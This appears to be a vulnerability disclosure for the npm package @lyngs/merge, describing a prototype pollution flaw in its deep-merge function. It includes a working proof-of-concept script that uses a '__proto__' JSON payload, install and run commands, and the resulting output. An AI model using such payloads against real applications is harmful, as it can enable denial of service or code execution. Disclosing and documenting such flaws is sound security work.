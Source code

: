 # Description

@lyngs/merge provides a function for user to merge value, just like Object.assign() did. But the difference is merge() will literally merge every layers of params.
This package is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var merge = require("@lyngs/merge")
obj = {}
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
console.log("Before : " + obj.polluted);
merge.merge(obj,payload)
console.log("After : " + obj.polluted);

```
2. Execute the following commands in another terminal:

```
npm install @lyngs/merge # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
